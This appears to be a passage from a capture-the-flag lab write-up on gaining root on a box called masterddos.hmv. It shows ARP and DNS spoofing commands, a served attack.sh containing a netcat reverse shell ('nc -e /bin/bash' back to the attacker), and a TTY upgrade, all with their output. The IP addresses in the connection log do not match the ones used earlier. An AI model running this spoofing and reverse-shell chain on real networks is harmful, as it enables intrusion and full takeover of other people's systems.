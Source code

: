 `python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

`sudo arpspoof -i eth1 -t 192.168.56.30 192.168.56.1`:
```
8:0:27:9d:2e:ba 8:0:27:bf:d:e6 0806 42: arp reply 192.168.56.1 is-at 8:0:27:9d:2e:ba
8:0:27:9d:2e:ba 8:0:27:bf:d:e6 0806 42: arp reply 192.168.56.1 is-at 8:0:27:9d:2e:ba
8:0:27:9d:2e:ba 8:0:27:bf:d:e6 0806 42: arp reply 192.168.56.1 is-at 8:0:27:9d:2e:ba
```

`echo -e '192.168.56.118\tmasterddos.hmv' | tee ./fake_hosts.txt`:
```                  
192.168.56.118  masterddos.hmv
```

`dnsspoof -i eth1 -f ./fake_hosts.txt`:
```
dnsspoof: listening on eth1 [udp dst port 53 and not src 192.168.56.118] ←
```

`nc -lnvp 7777`:
```
listening on [any] 7777 ... ←
```

![Victim: purple](https://img.shields.io/badge/Victim-purple-64b5f6?logo=linux&logoColor=white)

`curl http://masterddos.hmv/attack.sh`:
```
#!/bin/bash
nc -e /bin/bash 192.168.56.118 7777
```

`sudo /attack_dir/ddos.sh`:
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    47  100    47    0     0      3      0  0:00:15  0:00:15 --:--:--    11
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.1.160] from (UNKNOWN) [192.168.1.132] 56268 ←
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import pty; pty.spawn("/bin/bash")' && stty raw -echo && fg; export TERM=xterm; stty rows $(tput lines) cols $(tput cols)`

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) grupos=0(root) ←
```
